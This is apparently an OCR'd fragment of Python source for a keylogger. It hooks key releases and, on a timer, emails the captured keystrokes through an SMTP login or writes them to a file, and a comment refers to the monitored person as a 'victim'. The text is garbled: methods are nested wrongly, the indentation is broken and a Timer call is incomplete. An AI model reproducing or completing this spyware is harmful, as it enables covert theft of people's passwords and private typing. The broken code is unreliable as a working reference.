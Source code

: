            server.login(email, password)

            """The script will send the actual message to you, telling you its ready to start."""

            server.sendmail(email, email, self.prepare_mail(message))

            """After the script has completed its duty, it will terminate."""

            server.quit()
            if verbose:
                print(f"{datetime.now()}) -Sent an email to {email} containing: {message}")

                def report(self):
                    """This function will be called at every `self.interval`,
                    and basically sends all key logs, then resets the `self.log` variable.
                    :type self: object"""
                    if self.log:
                        """If there is something in the log, the script will report it once its finished
                        logging."""

                        self.end_dt = datetime.now()

                        """The script will subsequently update its `self.filename`."""

                        self.update_filename()

                    if self.report_method == "email":
                        self.sendmail(EMAIL_ADDRESS, EMAIL_PASSWORD, self.log)
                    elif self.report_method == "file":
                        self.report_to_file()

                        """If you don't wish for the output of your suspect or victim to be printed in
                        the console, you can comment out the below line."""

                        print(f"[{self.filename}] - {self.log}")
                        self.start_dt = datetime.now()
                    self.log = ""
                    timer = Timer()

                    """The script sets the thread as daemon, but dies if the main thread does."""

                    timer.daemon = True

                    """The script will start the timer."""

                    timer.start()

                    def start(self):

                        """The script records the starting datetime."""

                        self.start_dt = datetime.now()

                        """The script then starts the key logger."""

                        keyboard.on_release(callback=self.callback)

                        """The script starts reporting key presses."""

                        self.report()
